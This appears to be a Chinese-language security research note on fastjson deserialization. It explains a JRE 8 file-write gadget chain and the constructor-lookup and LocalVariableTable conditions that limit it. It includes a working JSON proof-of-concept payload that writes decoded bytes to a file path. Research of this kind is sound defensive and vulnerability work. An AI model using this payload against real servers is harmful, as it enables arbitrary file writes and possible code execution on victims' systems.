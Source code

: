 * 需要一个通过 set 方法或构造方法指定文件路径的 OutputStream（作为输出文件流）
* 需要一个通过 set 方法或构造方法传入字节数据的 OutputStream，并且可以通过 set 方法或构造方法传入一个 OutputStream，最后可以通过 write 方法将传入的字节码 write 到传入的 OutputStream（作为一个OutputStream转为另一个OutputStream的桥梁）
* 需要一个通过 set 方法或构造方法传入一个 OutputStream，并且可以通过调用 toString、hashCode、get、set、构造方法调用传入的 OutputStream 的 flush 方法（用于将缓冲区中的数据写入目标输入流）

在介绍commons-io写文件之前，介绍一个 JRE 8  的写文件的利用链：

POC：

```json
{
    "x":{
        "@type":"java.lang.AutoCloseable",
        "@type":"sun.rmi.server.MarshalOutputStream",
        "out":{
            "@type":"java.util.zip.InflaterOutputStream",
            "out":{
                "@type":"java.io.FileOutputStream",
                "file":"/tmp/dest.txt",
                "append":false
            },
            "infl":{
                "input":"eJwL8nUyNDJSyCxWyEgtSgUAHKUENw=="
            },
            "bufLen":1048576
        },
        "protocolVersion":1
    }
}
```

其中sun.rmi.server.MarshalOutputStream、java.util.zip.InflaterOutputStream 以及 java.io.FileOutputStream 的参数均是基于有参构造函数进行构建。且均是JDK原生字节码

fastjson在找不到默认无参构造函数的情况下，会遍历所有构造函数，使用lookupParametersName寻找带参数名信息的构造函数

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241025163356883.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241025163345217.png)



缺失了LocalVeriableTable并不会影响类的正常使用和反射调用，但是会使调试出现问题，无法提供方法中局部变量的名称、类型和作用范围等信息。

ASMUtils.lookupParametersName 方法依赖于 LocalVariableTable 信息来查找方法参数的名称。

https://zhuanlan.zhihu.com/p/263503452

> **LocalVariableTable**该属性的作用是描述帧栈中局部变量与源码中定义的变量之间的关系。可以使用 -g:none 或  -g:vars来取消或生成这项信息，如果没有生成这项信息，那么当别人引用这个方法时，将无法获取到参数名称，取而代之的是arg0,  arg1这样的占位符。start  表示该局部变量在哪一行开始可见，length表示可见行数，Slot代表所在帧栈位置，Name是变量名称，然后是类型签名。



目前只发现 CentOS 下的 OpenJDK 8 字节码调试信息中含有 LocalVariableTable。或者是win下的OpenJDK >=11，所以利用环境非常有限


